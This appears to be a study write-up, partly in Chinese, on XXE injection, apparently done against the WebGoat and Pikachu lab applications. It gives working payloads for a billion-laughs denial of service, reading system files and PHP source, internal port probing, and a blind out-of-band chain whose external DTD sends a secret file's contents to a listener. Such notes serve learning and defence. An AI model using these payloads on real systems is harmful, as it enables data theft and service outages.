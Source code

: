 # 介绍

![image](images/7A6F6301EC6F4C83BBC0F6B5FC63A3A4clipboard.png)

As you can see once the XML document is processed by the parser, it will replace the defined entity js with the defined constant "Jo Smith". As you can see this has many advantages as you can change js in one place to for example "John Smith".


In a Java application XML can be used to get data from the client to the server, we are all familiar with JSON apis we can also use xml to get the information across. Most of the time the framework automatically populates the Java object based on the xml structure, for example:

![image](images/2AF09A554662401D80B4E69F6CCEDE1Aclipboard.png)

![image](images/7E0AD852CC3C48ABAB286E7B88090FBEclipboard.png)

XXE(XML External Entity Injection) XML外部实体注入

# DTD内部文档声明

当DTD存在于XML源文件中，由以下格式进行包裹

```xml
<!DOCTYPE 根元素 [元素声明]>
可以看到在DTD设置了一些变量，然后在xml文档中再使用到这些变量。
这就是DTD与XML之间的使用方法。
```

然后XML文件对于DTD的内容进行引用

```xml
<?xml version="1.0"?>
<!DOCTYPE note [ 
  <!ELEMENT note (to,from,heading,body)>
  <!ELEMENT to      (#PCDATA)>
  <!ELEMENT from    (#PCDATA)>
  <!ELEMENT heading (#PCDATA)>
  <!ELEMENT body    (#PCDATA)>
]>
<note>
  <to>George</to>
  <from>John</from>
  <heading>Reminder</heading>
  <body>Don't forget the meeting!</body>
</note>
```

# XXE DOS attack

With the same XXE attack we can perform a DOS service attack towards the server. An example of such an attack is:

```xml
<?xml version="1.0"?>
<!DOCTYPE lolz [
 <!ENTITY lol "lol">
 <!ELEMENT lolz (#PCDATA)>
 <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
 <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
 <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
 <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
 <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
 <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
 <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
 <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
 <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<lolz>&lol9;</lolz>
```

When XML parser loads this document, it sees that it includes one root element, "lolz", that contains the text "&lol9;". However, "&lol9;" is a defined entity that expands to a string containing ten "&lol8;" strings. Each "&lol8;" string is a defined entity that expands to ten "&lol7;" strings, and so on. After all the entity expansions have been processed, this small (< 1 KB) block of XML will actually take up almost 3 gigabytes of memory.

# exp


```xml
<?xml version="1.0"?>
<!DOCTYPE note[
<!ENTITY xxe "hack">]>
<note>&xxe;</note>
```

### 查看系统文件内容

因为c:/windows/win.ini是每个windows系统都有的文件，如果确定服务器是windows系统，就可以用该文件来确定是否有xxe漏洞

```xml
<?xml version = "1.0"?>
<!DOCTYPE noet [
<!ENTITY xxe SYSTEM "file:///c:/windows/win.ini"> ]>
<note>&xxe;</note>
```

结果

![image](images/55D47A40B8A54D88AD3EBB5C6C20A01Aclipboard.png)


### 查看PHP源代码

```xml
<?xml version = "1.0"?>
<!DOCTYPE noet [
<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=D:/phpstudy_pro/WWW/pikachu/vul/rce/rce.php"> ]>
<note>&xxe;</note>
```

```xml
<?xml version = "1.0"?>
<!DOCTYPE noet [
<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=xxe_1.php"> ]>
<note>&xxe;</note>
```

结果

![image](images/C4BA6F09E4DC4D60B77634DE85636A94clipboard.png)

### 爆破开放端口

这个我是看了大佬的博客学习到的，先看两端代码，虽然返回结果都是那段“友善”的提示，
但是肉眼可见处理速度是不同的
原因是服务器80端口是开放的，而81端口是关闭的

```xml
<?xml version = "1.0"?>
<!DOCTYPE noet [
<!ENTITY xxe SYSTEM "http://127.0.0.1:80"> ]>
<note>&xxe;</note>
```

```xml
<?xml version = "1.0"?>
<!DOCTYPE noet [
<!ENTITY xxe SYSTEM "http://127.0.0.1:81"> ]>
<note>&xxe;</note>
```

### 无回显-读取文件 


放入自己服务端的attack.dtd文件内容

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY % file SYSTEM "file:///C:\Users\31222/.webgoat-8.2.2//XXE/secret.txt">
<!ENTITY % all "<!ENTITY send SYSTEM 'http://localhost:9090/landing?text=%file;'>">
%all;
```


发送给入侵端的

```xml

<?xml version="1.0"?>
<!DOCTYPE root [
<!ENTITY % remote SYSTEM "http://127.0.0.1:9090/files/hanhaniscat/attack.dtd">
%remote;
]>
<comment>
  <text>test&send;</text>
</comment>

```


整个的调用过程如下：解析%remote时引入attack.dtd，之后%all引入send的定义，最后引用了实体send，把%file文件内容通过一个http请求发了出去。